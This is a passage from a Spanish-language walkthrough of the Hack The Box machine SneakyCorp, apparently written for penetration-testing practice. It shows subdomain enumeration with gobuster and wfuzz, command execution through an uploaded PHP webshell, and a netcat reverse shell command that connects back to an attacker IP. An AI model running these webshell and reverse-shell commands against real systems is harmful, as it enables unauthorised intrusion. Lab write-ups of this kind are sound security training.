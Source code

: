 pero nada. Aqui pensamos en que podria tener otros subdominios.

### Descubrimientos de subdominios de dos formas {-}

#### Descubrimiento de subdominios con GOBUSTER {-}

```bash
gobuster vhost -u http://sneakycorp.htb -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

Encontramos el subdominio `dev.sneakycorp.htb`

#### Descubrimiento de subdominios con WFUZZ {-}

```bash
wfuzz -c -t 200 --hw=12 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -H "Host: FUZZ.sneakycorp.htb" http://10.10.10.197
```

Encontramos el subdominio `dev.sneakycorp.htb`

#### Retocamos en hosts {-}

```bash
nano /etc/hosts
```

```{r, echo = FALSE, fig.cap="hosts dev.sneakycorp.htb", out.width="90%"}
    knitr::include_graphics("images/hosts-dev-sneakycorp.png")
```

### Browsear el nuevo dominio {-}

Como aqui ya tenemos un nuevo dominio browseamos la web en `dev.sneakycorp.htb/s4vishell.php` y ahora si encontramos nuestra webshell.

- whoami con `dev.sneakycorp.htb/s4vishell.php?cmd=whoami`
- verificamos si estamos en un contenedor con `dev.sneakycorp.htb/s4vishell.php?cmd=hostname -I`

no es el caso y tenemos capacidad de remote code execution. Ahora intentamos ganar acceso al sistema.
## Explotacion de vulnerabilidad & Ganando acceso {-}

### Crear una reverse shell con s4vishell.php {-}

1. Escuchamos por el puerto 443

    ```bash
    nc -nlvp 443
    ```

1. Ejecutamos una reverse shell 

    ```bash
    dev.sneakycorp.htb/s4vishell.php?cmd=nc -e /bin/bash 10.10.14.20 443
    ```
